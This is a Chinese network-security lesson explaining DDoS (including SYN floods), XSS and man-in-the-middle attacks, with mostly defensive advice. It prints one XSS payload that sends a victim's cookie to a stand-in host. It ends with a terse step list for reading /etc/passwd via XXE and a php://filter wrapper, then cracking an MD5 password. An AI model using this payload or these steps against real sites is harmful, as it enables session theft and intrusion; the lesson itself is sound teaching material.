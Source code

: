 安全无小事。2016 年 DNS 提供商 Dyn 遭遇了一次大规模的 DDoS（分布式拒绝服务攻击），有 14000 个网站域名受到影响。2020 年 7 月份，Twitter 遭大规模攻击，黑客控制了包括马斯克、盖茨、奥巴马等人的 Twitter 账号，诱导用户购买比特币，最终骗取了 11W 美金。2021 年 4 月份，还有黑客利用 Github 的 Actions（Github 的一种 CI/CD 方案），诱导用户进行 git 操作时触发恶意比特币的矿机。

特别是在中国这种人口基数大，互联网发达的国家，如果一个互联网公司的安全出了故障，那么影响将是巨大的。前几年，我们国家出现过一起影响较大的安全问题——某知名技术社区用户的用户名和密码被大规模泄露。前车之鉴、后车之覆，我们要吸取教训。因此，这一讲我们就以“如何抵御 SYN 拒绝攻击”为引，开启今天的学习，让你对网络安全的常见攻防手段有一个初步了解。

拒绝服务攻击（DoS)
拒绝服务攻击（Denial-of-Service Attack，DoS）是一种常见的攻击手段。虽然目前互联网越来越趋向于正规化，但是对于黑产还有利用 DoS 攻击黑吃黑的现象。比较常见的就是热血传奇这款游戏的私服，搭建一个私服可以获得大额非法收入，但是因为是黑产也会经常受到黑客的攻击。黑客攻击后，再发邮件到管理员邮箱索取金钱，威胁用户不尽快打款就会一直攻击。

在过去，黑产间的攻阀，DoS 就可以作为一种常见武器。DoS 的原理就是利用大量的流量迅速向一个网站发送出去。这种流量可能是应用层的，比如大量 HTTP 请求；也可以是传输层，比如大量的 TCP 请求。比如 2018 年 2 月 18 日，Github 就遭受了一场超大规模的 DoS 攻击，瞬间流量峰值达到了 1.35Tbps。之后，黑客还对 Google、亚马逊等网站也进行了攻击。

为了形成足够强大的流量，攻击者往往没有足够的经济实力购买机器，而是利用中病毒、木马的机器组织流量攻击。这些中病毒的机器，我们俗称“肉鸡”。顶级的黑客往往控制着大量的肉鸡，一声令下，肉鸡就开始疯狂向目标发送网络封包，直到打垮目标。因为肉鸡是分散在世界各地的，因此这种攻击我们也称为分布式拒绝服务攻击（Distributed Denial-of-Service Attack， DDoS）。

DDoS 的种类
DDoS 的种类有很多，手段也很复杂。

- 直接不停发送 Ping 消息的，利用底层的 ICMP 协议，称为ICMP 攻击；

- 走 UPD 协议的，称为UDP 洪水（UDP Flood）；

- 不停利用 TCP 协议发送 SYN 消息的，也叫SYN 攻击；

- 模拟用户行为，不停发帖、浏览帖子、浏览网页、加购物车等，称为挑战黑洞攻击（Challenge Collapsar）。


防范措施
当遇到 DDoS 攻击的时候，如果有所准备，就可以做到有备无患。比如说购买了防火墙，防火墙会根据特征识别出攻击行为，通过这样的方式将攻击行为过滤掉，让系统不会因为 DDoS 而过载造成崩溃。

当然如果是纯粹的流量攻击，仅仅靠防火墙是不够的。通常一些大型互联网公司会进行多活建设。一般是两地三机房，分别是日常生产环境、同城灾备环境和异地灾备环境，遇到 DDoS 可以考虑切换流量，也能起到一定作用。

另外 CDN 在解决 DDoS 时往往也有很好的效果，毕竟 CDN 是大量缓存节点，DDoS 攻击 CDN 的时候用不上力。当然，如果资金不足以购买服务器的小团队，可以自己实现软件防火墙。其实就是设计一台吞吐量极高的代理服务器，作为反向代理挡在所有服务前面，如果遇到 DDoS，代理服务器可以识别出一些特征并丢弃一些流量。

在遇到攻击的时候，对服务适当降级也是有必要的，甚至可以牺牲一部分用户保全另一部分用户的正常使用。防火墙是基于特征识别，本身也会有一定的误杀现象，在被攻击的时候，可以人为降低判定攻击行为的门槛。通过允许防火墙造成一部分的误伤来识别出更多的攻击流量。

跨站脚本攻击（XSS）
接下来我们讨论另一种攻击——跨站脚本攻击。

2021 年 2 月印度的一名测试工程师在苹果 iCloud 官网中发现了一个跨站脚本攻击漏洞，并向苹果公司提交了具体的漏洞说明和触发的操作步骤。事后，苹果公司给这名印度人发放了 5000 美金的奖金。

跨站脚本（Cross Site Scripting），顾名思义，就是利用漏洞将脚本注入网页中。比如提交个人信息的输入框，如果在服务端没有处理好就有可能触发跨站脚本。

假设有一个输入个人签名的多行文本输入框，正常用户会输入几句有趣的话，但是黑客可能会尝试输入：

复制代码
<script>document.createElement('img').src="https://some.site.com?cookie=document.cookie"</script>
如果这段话被显示到用户的个人主页，那么访问这个用户空间的其他用户就会被攻击，进而被黑客拿走 Cookie 中的关键信息。

XSS 攻击模式很简单，就是想办法向网站的页面上注入脚本。总的来说，输入框是一个重灾区。目前随着前端技术的发展，使用前端框架，比如 React 或 Vue 开发的页面已经杜绝了被 XSS 的可能。但是有时候如果工作出现某些疏漏，还是会导致 XSS 的发生。所以正确的做法是上线前拜托安全部门的同学协助进行一些针对 XSS 漏洞的扫描。

中间人攻击
接下来我们聊聊中间人攻击。

我们国家目前在打击网络电信诈骗案中，就有这样一种形式。一些不法分子利用伪基站，比如找一个人多的地方，用自己的伪基站设备伪装成基站，向用户提供网络。一些离不法分子较近的人，手机可能会连接上伪基站。连接上后，不法分子的伪基站就成了你上网的代理，可以进行很多非法操作。因此，从这个角度看，中间人黑进你附近的网络，成为你上网的“代理”，并不是非常难的一件事情。不懂技术的犯罪分子，通过购买伪基站设备，就可以充当中间人。

在遇到中间人攻击时，互联网的信用体系、操作系统、浏览器等就会帮你把好最后一关。比如你访问淘宝购物，中间人向你投放假网页。浏览器就会去验证这个假网页的证书，是不是淘宝的证书。去年 Github 在国内疑似被中间人攻击的案例中，国内很多用户看到的现象是浏览器提示用户浏览的网站不安全。这种情况就是浏览器在校对证书的时候发现了疑点。如果你上网遇到这种情况应该选择立即关闭这个网页，不进行后续的操作，防止被骗。

总结
生活在当今时代，作为个人，网络安全是一件大事。你的购票信息、出行记录、账号密码、位置信息等，都需要你有防范意识，防止被不法分子拿走。在为公司工作的时候，要保管好自己的账号。特别是你工作用的计算机，要远离非正规渠道获得的软件。你的工作计算机一旦中了木马，成了肉鸡，那不法分子完全可以用你的工作计算机作为跳板，登录公司服务器。

另一方面，作为公司和团队，也要有较强的安全意识。当然，安全领域有自己的专业知识和人才。在互联网产品初期，往往承担不起昂贵的防火墙和雇佣安全专家的费用，这个时候需要开发者主动去学习安全知识，尽可能提升被攻破的成本。当业务发展到一定程度后，就需要马上雇佣安全专家，以及购买包括防火墙在内的网络安全设备。

好的，那么通过这一讲的学习，你现在可以尝试来回答：如何抵御 SYN 拒绝攻击？

【解析】SYN 攻击是 DDoS 攻击的一种形式。这种形式攻击者伪装成终端不停地向服务器发起 SYN 请求。通常攻击者的肉鸡，发送了 SYN 之后，不等给服务端 ACK，就下线了。 这样攻击者不断发送 SYN ，然后下线，而服务端会等待一段时间（通常会在 3s 以上），等待 ACK。这样就导致了大量的连接对象在服务端被积累。

针对这个特点可以实现一个 TCP 代理（防火墙），发现有发送 SYN 但是不给 ACK 的行为就对目标 IP 地址禁用一段时间。这个策略平时可以配置成开关，等到被攻击的时候打开。另一方面，可以适当提升连接数支持。

哪些情况下你服务器的 /etc/passwd 文件会被黑客拿走？

burpsuite抓包，xxe获取etc/passwod文件，构造payload,用php伪协议获取base64-encode/resource=admin.php,用base64进行解码，查看admin.php的源码,密码是经过md5加密的，使用在线的SOMD5解密后得到密码